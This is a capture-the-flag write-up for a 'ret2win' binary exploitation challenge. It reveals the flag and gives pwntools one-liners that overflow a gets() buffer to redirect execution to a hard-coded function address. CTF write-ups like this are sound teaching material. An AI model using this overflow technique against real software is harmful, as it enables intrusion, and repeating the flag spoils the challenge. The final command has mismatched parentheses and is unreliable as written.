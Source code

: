 # ret2win
can you pwn the binary?

## Flag
enc0re{r37_too_w1N}

## Solution
1. debugging the binary gdb shows that gets() is used which leads to buffer overflow
2. Using pwn cyclic and dmesg, you will find that the buffer is 40 bytes
3. the flag function is located at `0x00401162`
4. Simple jump address should work 
`python3 -c "from pwn import *; import sys; sys.stdout.buffer.write(b'A'*40 + p64(0x00401162))" | ./vuln`
5. But it still doesn't give the flag so after debugging more, you will find that rip is not overwritten by the flag address, so we add ret instruction before jumping to flag function
6. `python3 -c "from pwn import *; import sys; sys.stdout.buffer.write(b'A'*40 + p64(0x000401016)) + p64(0x000401162)); print('\n')" | ./vuln`

